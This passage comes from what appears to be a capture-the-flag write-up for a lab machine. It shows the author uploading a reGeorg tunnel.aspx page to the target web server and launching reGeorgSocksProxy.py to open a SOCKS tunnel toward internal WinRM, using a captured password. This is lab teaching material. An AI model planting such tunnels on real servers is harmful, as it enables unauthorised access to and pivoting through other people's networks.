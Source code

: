 #### reGeorg

There’s a neat project, [reGeorg](https://github.com/sensepost/reGeorg), which
provides `tunnel.*` files for web languages such as php, aspx, js, and jsp.
These pages provide a socks proxy through their web server execution. If I can
get one of these to run on a target webserver, I can then run
`reGeorgSocksProxy.py` to connect to it, which creates a socks proxy from my
machine to the target.

#### Strategy

I’ll take a minute and collect the things I know at this point that are
relevant:

  * I know from the netstat on port 6666 that the host is listening on WinRm 5985, even if I can’t access it directly.
  * I’ve got the password for the user simple.
  * The web dirs seem to be running both php and ASP.NET. For php I’ve seen that the list of blocked functions, and that seems less likely to work. While an ASP.NET webshell won’t function (see Beyond Root), reGeorg might, so I’ll start there.

#### Upload reGeorg

    
    
     > help upload
    Upload a local file to target
            Spaces allowed in target path, not local path
            upload [local file] [path on target]
     > upload /opt/reGeorg/tunnel.aspx tun.aspx
     > dir .
    Array
    (
        [0] => .
        [1] => ..
        [2] => index.html
        [3] => tun.aspx
        [4] => webadmin.php
    )
    1
    

#### Connect Proxy

Now I’ll use `reGeorg` to connect to the page and start the tunnel:

    
    
    root@kali# python /opt/reGeorg/reGeorgSocksProxy.py -p 1080 -u http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/tun.aspx
    
    
                         _____
      _____   ______  __|___  |__  ______  _____  _____   ______
     |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|                                       
     |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |                                                                        
     |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                        |_____|                      
                        ... every office needs a tool like Georg
    